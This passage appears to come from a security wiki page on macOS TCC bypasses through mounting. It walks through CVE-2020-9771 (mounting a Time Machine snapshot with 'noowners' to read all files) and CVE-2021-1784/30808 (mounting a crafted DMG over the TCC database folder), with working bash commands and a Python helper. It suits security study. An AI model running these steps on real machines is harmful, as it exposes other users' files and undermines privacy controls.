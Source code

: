 ## By mounting

### CVE-2020-9771 - mount_apfs TCC bypass and privilege escalation

**Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```

A more detailed explanation can be [**found in the original report**](https://theevilbit.github.io/posts/cve_2020_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Mount over TCC file

Even if TCC DB file is protected, It was possible to **mount over the directory** a new TCC.db file:

```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```

```python
# This was the python function to create the dmg
def create_dmg():
    os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
    os.system("mkdir /tmp/mnt")
    os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
    os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
    os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
    os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```
